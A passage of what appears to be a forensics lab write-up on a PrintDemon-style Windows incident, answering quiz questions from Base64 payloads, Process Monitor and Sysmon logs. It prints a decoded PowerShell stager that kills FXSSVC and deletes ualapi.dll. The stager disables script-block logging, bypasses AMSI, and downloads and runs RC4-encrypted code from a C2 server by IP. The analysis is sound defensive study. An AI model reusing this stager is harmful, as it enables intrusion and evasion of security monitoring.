QQBhAFEAQgAwAEEARAB3AEEAYgB3AEIAVwBBAEQAawBBAFMAZwBCAGoAQQBGAEkAQQBUAHcAQgBNAEEASABzAEEASgBRAEIAbgBBAEYARQBBAEwAZwBCADgAQQBEAE0AQQBiAGcAQgBJAEEASABFAEEAVABRAEIAdwBBAEUARQBBAEwAdwBCAHMAQQBDAGMAQQBLAFEAQQA3AEEAQwBRAEEAVQBnAEEAOQBBAEgAcwBBAEoAQQBCAEUAQQBDAHcAQQBKAEEAQgBMAEEARAAwAEEASgBBAEIAQgBBAEgASQBBAFIAdwBCAHoAQQBEAHMAQQBKAEEAQgBUAEEARAAwAEEATQBBAEEAdQBBAEMANABBAE0AZwBBADEAQQBEAFUAQQBPAHcAQQB3AEEAQwA0AEEATABnAEEAeQBBAEQAVQBBAE4AUQBCADgAQQBDAFUAQQBlAHcAQQBrAEEARQBvAEEAUABRAEEAbwBBAEMAUQBBAFMAZwBBAHIAQQBDAFEAQQBVAHcAQgBiAEEAQwBRAEEAWAB3AEIAZABBAEMAcwBBAEoAQQBCAEwAQQBGAHMAQQBKAEEAQgBmAEEAQwBVAEEASgBBAEIATABBAEMANABBAFEAdwBCAFAAQQBIAFUAQQBiAGcAQgBVAEEARgAwAEEASwBRAEEAbABBAEQASQBBAE4AUQBBADIAQQBEAHMAQQBKAEEAQgBUAEEARgBzAEEASgBBAEIAZgBBAEYAMABBAEwAQQBBAGsAQQBGAE0AQQBXAHcAQQBrAEEARQBvAEEAWABRAEEAOQBBAEMAUQBBAFUAdwBCAGIAQQBDAFEAQQBTAGcAQgBkAEEAQwB3AEEASgBBAEIAVABBAEYAcwBBAEoAQQBCAGYAQQBGADAAQQBmAFEAQQA3AEEAQwBRAEEAUgBBAEIAOABBAEMAVQBBAGUAdwBBAGsAQQBFAGsAQQBQAFEAQQBvAEEAQwBRAEEAUwBRAEEAcgBBAEQARQBBAEsAUQBBAGwAQQBEAEkAQQBOAFEAQQAyAEEARABzAEEASgBBAEIASQBBAEQAMABBAEsAQQBBAGsAQQBFAGcAQQBLAHcAQQBrAEEARgBNAEEAVwB3AEEAawBBAEUAawBBAFgAUQBBAHAAQQBDAFUAQQBNAGcAQQAxAEEARABZAEEATwB3AEEAawBBAEYATQBBAFcAdwBBAGsAQQBFAGsAQQBYAFEAQQBzAEEAQwBRAEEAVQB3AEIAYgBBAEMAUQBBAFMAQQBCAGQAQQBEADAAQQBKAEEAQgBUAEEARgBzAEEASgBBAEIASQBBAEYAMABBAEwAQQBBAGsAQQBGAE0AQQBXAHcAQQBrAEEARQBrAEEAWABRAEEANwBBAEMAUQBBAFgAdwBBAHQAQQBHAEkAQQBXAEEAQgB2AEEARgBJAEEASgBBAEIAVABBAEYAcwBBAEsAQQBBAGsAQQBGAE0AQQBXAHcAQQBrAEEARQBrAEEAWABRAEEAcgBBAEMAUQBBAFUAdwBCAGIAQQBDAFEAQQBTAEEAQgBkAEEAQwBrAEEASgBRAEEAeQBBAEQAVQBBAE4AZwBCAGQAQQBIADAAQQBmAFEAQQA3AEEAQwBRAEEATQBnAEEAMwBBAEUATQBBAFIAUQBBAHUAQQBFAGcAQQBaAFEAQgBoAEEARQBRAEEAWgBRAEIAeQBBAEgATQBBAEwAZwBCAEIAQQBHAFEAQQBSAEEAQQBvAEEAQwBJAEEAUQB3AEIAdgBBAEcAOABBAGEAdwBCAHAAQQBHAFUAQQBJAGcAQQBzAEEAQwBJAEEAVQBnAEIAcQBBAEUAMABBAFoAUQBCAGwAQQBHAHMAQQBQAFEAQgBhAEEARwAwAEEAVQBRAEIATQBBAEUAZwBBAFkAUQBCAGoAQQBFADAAQQBRAGcAQgBZAEEASABJAEEAVABBAEIAagBBAEUASQBBAEsAdwBCAFcAQQBFAFUAQQBiAEEAQgAyAEEARQB3AEEAWQB3AEIAMwBBAEUAOABBAE0AZwBBADIAQQBFAFUAQQBXAFEAQQA5AEEAQwBJAEEASwBRAEEANwBBAEMAUQBBAFIAQQBCAGgAQQBIAFEAQQBRAFEAQQA5AEEAQwBRAEEATQBnAEEAMwBBAEUATQBBAFoAUQBBAHUAQQBFAFEAQQBUAHcAQgAzAEEARwA0AEEAYgBBAEIAdgBBAEUARQBBAFoAQQBCAEUAQQBFAEUAQQBkAEEAQgBCAEEAQwBnAEEASgBBAEIAVABBAEcAVQBBAGMAZwBBAHIAQQBDAFEAQQBWAEEAQQBwAEEARABzAEEASgBBAEIAcABBAEgAWQBBAFAAUQBBAGsAQQBFAFEAQQBZAFEAQgBVAEEARQBFAEEAVwB3AEEAdwBBAEMANABBAEwAZwBBAHoAQQBGADAAQQBPAHcAQQBrAEEARQBRAEEAWQBRAEIAMABBAEUARQBBAFAAUQBBAGsAQQBHAFEAQQBRAFEAQgAwAEEARQBFAEEAVwB3AEEAMABBAEMANABBAEwAZwBBAGsAQQBFAFEAQQBZAFEAQgAwAEEARwBFAEEATABnAEIAcwBBAEUAVQBBAFQAZwBCAG4AQQBIAFEAQQBhAEEAQgBkAEEARABzAEEATABRAEIAcQBBAEUAOABBAFMAUQBCAE8AQQBGAHMAQQBRAHcAQgBJAEEARQBFAEEAYwBnAEIAYgBBAEYAMABBAFgAUQBBAG8AQQBDAFkAQQBJAEEAQQBrAEEARgBJAEEASQBBAEEAawBBAEcAUQBBAFEAUQBCADAAQQBFAEUAQQBJAEEAQQBvAEEAQwBRAEEAUwBRAEIAVwBBAEMAcwBBAEoAQQBCAEwAQQBDAGsAQQBLAFEAQgA4AEEARQBrAEEAUgBRAEIAWQBBAEEAPQA9ACcALAAiAEQAUQBBAD0AIgAgACkAOwB3AGgAaQBsAGUAIAAoACQAdABjAHAAQwBvAG4AbgBlAGMAdABpAG8AbgAuAEMAbwBuAG4AZQBjAHQAZQBkACkAewB3AGgAaQBsAGUAIAAoACQAdABjAHAAUwB0AHIAZQBhAG0ALgBEAGEAdABhAEEAdgBhAGkAbABhAGIAbABlACkAewAkAHIAZQBhAGQAZQByAC4AUgBlAGEAZABMAGkAbgBlACgAKQB9ADsAaQBmACAAKAAkAHQAYwBwAEMAbwBuAG4AZQBjAHQAaQBvAG4ALgBDAG8AbgBuAGUAYwB0AGUAZAApAHsARgBvAHIAKAAkAGkAIAA9ACAAMAA7ACAAJABpACAALQBsAHQAIAA1ADsAIAAkAGkAKwArACkAewBGAG8AcgBFAGEAYwBoACAAKAAkAHMAdAByACAAaQBuACAAJABjAG8AbQBtAGEAbgBkAHMAKQB7AFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AcwAgADEAOwAkAGMAbwBtAG0AYQBuAGQAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBuAGkAYwBvAGQAZQAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAcwB0AHIAKQApADsAJAB3AHIAaQB0AGUAcgAuAFcAcgBpAHQAZQBMAGkAbgBlACgAJABjAG8AbQBtAGEAbgBkACkAIAB8ACAATwB1AHQALQBOAHUAbABsADsAfQA7AH0AOwBiAHIAZQBhAGsAOwB9ADsAfQA7ACQAcgBlAGEAZABlAHIALgBDAGwAbwBzAGUAKAApADsAJAB3AHIAaQB0AGUAcgAuAEMAbABvAHMAZQAoACkAOwAkAHQAYwBwAEMAbwBuAG4AZQBjAHQAaQBvAG4ALgBDAGwAbwBzAGUAKAApADsA


C:\Users\Administrator\Desktop>
```

And then decode the Base64-encoded string in **CyberChef** with the recipes `From Base64` and `Decode text (UTF-16LE)`.
After some formating the contents becomes:

```powershell
sc.exe start Fax;
$FTPServer = "localhost";
$FTPPort = "9299";
$tcpConnection = New-Object System.Net.Sockets.TcpClient($FTPServer, $FTPPort);
$tcpStream = $tcpConnection.GetStream();
$reader = New-Object System.IO.StreamReader($tcpStream);
$writer = New-Object System.IO.StreamWriter($tcpStream);
$writer.AutoFlush = $true;
$commands = @( "DQA=",'awBpAGwAbAAgACgARwBlAHQALQBQAHIAbwBjAGUAcwBzACAARgBYAFMAUwBWAEMAKQAuAEkAZAAgAC0AZgBvAHIAYwBlADsAIABSAGUAbQBvAHYAZQAtAEkAdABlAG0AIAAtAHAAYQB0AGgAIAAgACcAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHUAYQBsAGEAcABpAC4AZABsAGwAJwA7AEkARgAoACQAUABTAFYARQByAFMASQBPAE4AVABBAEIAbABFAC4AUABTAFYARQByAHMASQBvAE4ALgBNAEEASgBPAHIAIAAtAEcARQAgADMAKQB7ACQAZgBmAGYANgA9AFsAcgBlAGYAXQAuAEEAUwBzAGUAbQBCAEwAeQAuAEcAZQB0AFQAeQBwAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAGUAdABGAGkAZQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABmAGYARgA2ACkAewAkAEIAOQBCAEUAPQAkAGYARgBmADYALgBHAEUAVABWAGEAbABVAGUAKAAkAE4AVQBMAEwAKQA7AEkAZgAoACQAQgA5AGIARQBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdACkAewAkAEIAOQBCAGUAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQBbACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AMAA7ACQAYgA5AEIAZQBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAHYAQQBsAD0AWwBDAE8ATABsAEUAQwB0AGkATwBuAFMALgBHAEUAbgBFAHIASQBjAC4ARABJAGMAVABJAG8ATgBBAFIAeQBbAFMAVAByAGkAbgBHACwAUwB5AFMAdABFAE0ALgBPAEIAagBlAGMAVABdAF0AOgA6AG4ARQB3ACgAKQA7ACQAVgBhAGwALgBBAEQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAVgBBAEwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABiADkAYgBFAFsAJwBIAEsARQBZAF8ATABPAEMAQQBMAF8ATQBBAEMASABJAE4ARQBcAFMAbwBmAHQAdwBhAHIAZQBcAFAAbwBsAGkAYwBpAGUAcwBcAE0AaQBjAHIAbwBzAG8AZgB0AFwAVwBpAG4AZABvAHcAcwBcAFAAbwB3AGUAcgBTAGgAZQBsAGwAXABTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAkAFYAQQBsAH0ARQBsAFMARQB7AFsAUwBDAFIAaQBwAFQAQgBsAG8AYwBrAF0ALgAiAEcAZQBUAEYAaQBlAGAAbABkACIAKAAnAHMAaQBnAG4AYQB0AHUAcgBlAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAVABWAGEATAB1AGUAKAAkAG4AVQBMAGwALAAoAE4AZQB3AC0ATwBCAGoARQBDAHQAIABDAE8ATABsAGUAYwB0AEkAbwBOAHMALgBHAEUAbgBlAHIASQBDAC4ASABhAFMASABTAGUAVABbAHMAVAByAEkAbgBnAF0AKQApAH0AJABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAUwBTAEUAbQBiAGwAeQAuAEcAZQBUAFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIARQBmAC4ARwBFAHQARgBJAEUATABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgAnACsAJwBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdABWAGEATABVAEUAKAAkAG4AdQBMAGwALAAkAFQAcgB1AEUAKQA7AH0AOwBbAFMAeQBzAHQARQBtAC4ATgBFAFQALgBTAEUAcgBWAEkAQwBFAFAAbwBJAG4AdABNAEEAbgBBAGcAZQBSAF0AOgA6AEUAeABQAEUAYwBUADEAMAAwAEMATwBuAFQASQBuAHUAZQA9ADAAOwAkADIANwBDAEUAPQBOAGUAVwAtAE8AQgBKAEUAYwB0ACAAUwBZAHMAVABFAG0ALgBOAEUAdAAuAFcARQBCAEMAbABJAGUATgBUADsAJAB1AD0AJwBNAG8AegBpAGwAbABhAC8ANQAuADAAIAAoAFcAaQBuAGQAbwB3AHMAIABOAFQAIAA2AC4AMQA7ACAAVwBPAFcANgA0ADsAIABUAHIAaQBkAGUAbgB0AC8ANwAuADAAOwAgAHIAdgA6ADEAMQAuADAAKQAgAGwAaQBrAGUAIABHAGUAYwBrAG8AJwA7ACQAcwBlAHIAPQAkACgAWwBUAEUAeAB0AC4ARQBOAEMAbwBEAGkATgBnAF0AOgA6AFUATgBpAEMAbwBEAGUALgBHAEUAVABTAHQAcgBpAG4AZwAoAFsAQwBPAG4AVgBlAFIAdABdADoAOgBGAHIATwBNAEIAQQBzAEUANgA0AFMAVAByAEkATgBnACgAJwBhAEEAQgAwAEEASABRAEEAYwBBAEEANgBBAEMAOABBAEwAdwBBAHoAQQBEAFEAQQBMAGcAQQB5AEEARABRAEEATgBRAEEAdQBBAEQARQBBAE0AZwBBADQAQQBDADQAQQBNAFEAQQAyAEEARABFAEEATwBnAEEANQBBAEQAQQBBAE0AQQBBAHgAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAGEAZABtAGkAbgAvAGcAZQB0AC4AcABoAHAAJwA7ACQAMgA3AEMARQAuAEgAZQBhAGQARQByAHMALgBBAEQARAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkADIANwBDAGUALgBQAHIATwB4AFkAPQBbAFMAeQBTAFQARQBtAC4ATgBFAFQALgBXAEUAQgBSAEUAcQBVAGUAcwBUAF0AOgA6AEQAZQBmAEEAVQBsAHQAVwBFAEIAUABSAE8AWABZADsAJAAyADcAYwBlAC4AUABSAE8AWAB5AC4AQwByAEUARABFAE4AVABJAGEAbABzACAAPQAgAFsAUwB5AFMAdABlAG0ALgBOAEUAdAAuAEMAUgBFAGQARQBuAFQAaQBBAGwAQwBBAEMAaABFAF0AOgA6AEQARQBGAEEAVQBMAFQATgBlAFQAdwBvAFIASwBDAHIARQBkAGUAbgBUAGkAQQBMAFMAOwAkAFMAYwByAGkAcAB0ADoAUAByAG8AeAB5ACAAPQAgACQAMgA3AGMAZQAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AHMAdABFAG0ALgBUAGUAWABUAC4ARQBuAEMAbwBEAGkATgBnAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAWQBUAGUAcwAoACcAYQB3AFgAVQBEAGsAaQB0ADwAbwBWADkASgBjAFIATwBMAHsAJQBnAFEALgB8ADMAbgBIAHEATQBwAEEALwBsACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUAbgBUAF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAGIAWABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAMgA3AEMARQAuAEgAZQBhAEQAZQByAHMALgBBAGQARAAoACIAQwBvAG8AawBpAGUAIgAsACIAUgBqAE0AZQBlAGsAPQBaAG0AUQBMAEgAYQBjAE0AQgBYAHIATABjAEIAKwBWAEUAbAB2AEwAYwB3AE8AMgA2AEUAWQA9ACIAKQA7ACQARABhAHQAQQA9ACQAMgA3AEMAZQAuAEQATwB3AG4AbABvAEEAZABEAEEAdABBACgAJABTAGUAcgArACQAVAApADsAJABpAHYAPQAkAEQAYQBUAEEAWwAwAC4ALgAzAF0AOwAkAEQAYQB0AEEAPQAkAGQAQQB0AEEAWwA0AC4ALgAkAEQAYQB0AGEALgBsAEUATgBnAHQAaABdADsALQBqAE8ASQBOAFsAQwBIAEEAcgBbAF0AXQAoACYAIAAkAFIAIAAkAGQAQQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==',"DQA=" );
while ($tcpConnection.Connected) {
    while ($tcpStream.DataAvailable) {
        $reader.ReadLine()
    };
    if ($tcpConnection.Connected) {
        For($i = 0; $i -lt 5; $i++) {
            ForEach ($str in $commands) {
                Start-Sleep -s 1;
                $command = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($str));
                $writer.WriteLine($command) | Out-Null;
            };
        };
    break;
    };
};
$reader.Close();
$writer.Close();
$tcpConnection.Close();
```

See the line `sc.exe start Fax;`.

Answer: `Fax`

### The payload attempts to open a local port. What is the port number?

See PowerShell code above (`$FTPPort = "9299";`).

Answer: `9299`

### What process does the payload attempt to terminate?

We need to Base64-decode the next layer of obfuscation in the `$commands` variable above with **CyberChef** as before.

After formatting the contents becomes

```powershell
kill (Get-Process FXSSVC).Id -force; 
Remove-Item -path  'C:\Windows\System32\ualapi.dll';
IF($PSVErSIONTABlE.PSVErsIoN.MAJOr -GE 3) { 
    $fff6=[ref].ASsemBLy.GetTypE('System.Management.Automation.Utils')."GetFie`ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
    If($ffF6) {
        $B9BE=$fFf6.GETValUe($NULL);
        If($B9bE['ScriptB'+'lockLogging']) {
            $B9Be['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$b9Be['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
        }
        $vAl=[COLlECtiOnS.GEnErIc.DIcTIoNARy[STrinG,SyStEM.OBjecT]]::nEw();
        $Val.ADD('EnableScriptB'+'lockLogging',0);
        $VAL.ADd('EnableScriptBlockInvocationLogging',0);
        $b9bE['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAl
    }
    ElSE {
        [SCRipTBlock]."GeTFie`ld"('signatures','N'+'onPublic,Static').SETVaLue($nULl,(New-OBjECt COLlectIoNs.GEnerIC.HaSHSeT[sTrIng]))
    }
    $Ref=[Ref].ASSEmbly.GeTType('System.Management.Automation.Amsi'+'Utils');
    $REf.GEtFIELD('amsiInitF'+'ailed','NonPublic,Static').SetVaLUE($nuLl,$TruE);
};
[SystEm.NET.SErVICEPoIntMAnAgeR]::ExPEcT100COnTInue=0;
$27CE=NeW-OBJEct SYsTEm.NEt.WEBClIeNT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$ser=$([TExt.ENCoDiNg]::UNiCoDe.GETString([COnVeRt]::FrOMBAsE64STrINg('aAB0AHQAcAA6AC8ALwAzADQALgAyADQANQAuADEAMgA4AC4AMQA2ADEAOgA5ADAAMAAxAA==')));
$t='/admin/get.php';
$27CE.HeadErs.ADD('User-Agent',$u);
$27Ce.PrOxY=[SySTEm.NET.WEBREqUesT]::DefAUltWEBPROXY;
$27ce.PROXy.CrEDENTIals = [SyStem.NEt.CREdEnTiAlCAChE]::DEFAULTNeTwoRKCrEdenTiALS;$Script:Proxy = $27ce.Proxy;
$K=[SystEm.TeXT.EnCoDiNg]::ASCII.GeTBYTes('awXUDkit<oV9JcROL{%gQ.|3nHqMpA/l');
$R= {
    $D,$K=$ArGs; 
    $S=0..255; 
    0..255 | % { $J=($J+$S[$_]+$K[$_%$K.COunT]) % 256; $S[$_],$S[$J]=$S[$J],$S[$_] };
    $D | % { $I=($I+1)%256; $H=($H+$S[$I])%256; $S[$I],$S[$H]=$S[$H],$S[$I];$_-bXoR$S[($S[$I]+$S[$H]) % 256] }
};
$27CE.HeaDers.AdD("Cookie","RjMeek=ZmQLHacMBXrLcB+VElvLcwO26EY=");
$DatA=$27Ce.DOwnloAdDAtA($Ser+$T);
$iv=$DaTA[0..3];
$DatA=$dAtA[4..$Data.lENgth];
-jOIN[CHAr[]](& $R $dAtA ($IV+$K)) | IEX
```

See the line `kill (Get-Process FXSSVC).Id -force;`.

Answer:  `FXSSVC`

### What DLL file does the payload attempt to remove? (full path)

See the PowerShell code above (`Remove-Item -path  'C:\Windows\System32\ualapi.dll';`))

Answer:  `C:\Windows\System32\ualapi.dll`

### What is the Windows Event ID associated with this service?

Hint: This DLL is associated with Print Spooler or Fax services

The answer can be found in the PrintService Admin log under `Applications and Services Logs` -> `Microsoft` -> `Windows` -> `PrintService` -> `Admin`



Answer: `823`

### What is listed as the New Default Printer?

See image above.

Answer: `PrintDemon`

### What process is associated with this event?

Open the **Process Monitor** log file (`Logfile.PML`) and search for `PrintDemon` (`Edit` -> `Find...`)



Answer: `spoolsv.exe`

### What is the parent PID for the above process?

Use the `Process Tree` function in **Process Monitor** (`Tools` -> `Process Tree...`)



Answer: `620`

### Examine the other processes. What is the PID of the process running the encoded payload?

We know from earlier that we should be looking for a PowerShell process.



We can also use the Sysmon log in Event Viewer. Filter for Event ID 1 (Process Creation) and Search for (`Find...`) `-enc`

```text
Process Create:
RuleName: technique_id=T1059.001,technique_name=PowerShell
UtcTime: 2021-01-22 01:05:45.938
ProcessGuid: {786593ca-24e9-600a-eb00-000000000300}
ProcessId: 3088
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 10.0.17763.1 (WinBuild.160101.0800)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBFAHIAUwBJAE8ATgBUAEEAQgBsAEUALgBQAFMAVgBFAHIAcwBJAG8ATgAuAE0AQQBKAE8AcgAgAC0ARwBFACAAMwApAHsAJABmAGYAZgA2AD0AWwByAGUAZgBdAC4AQQBTAHMAZQBtAEIATAB5AC4ARwBlAHQAVAB5AHAARQAoACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAFUAdABpAGwAcwAnACkALgAiAEcAZQB0AEYAaQBlAGAAbABkACIAKAAnAGMAYQBjAGgAZQBkAEcAcgBvAHUAcABQAG8AbABpAGMAeQBTAGUAdAB0AGkAbgBnAHMAJwAsACcATgAnACsAJwBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkAOwBJAGYAKAAkAGYAZgBGADYAKQB7ACQAQgA5AEIARQA9ACQAZgBGAGYANgAuAEcARQBUAFYAYQBsAFUAZQAoACQATgBVAEwATAApADsASQBmACgAJABCADkAYgBFAFsAJwBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0AKQB7ACQAQgA5AEIAZQBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0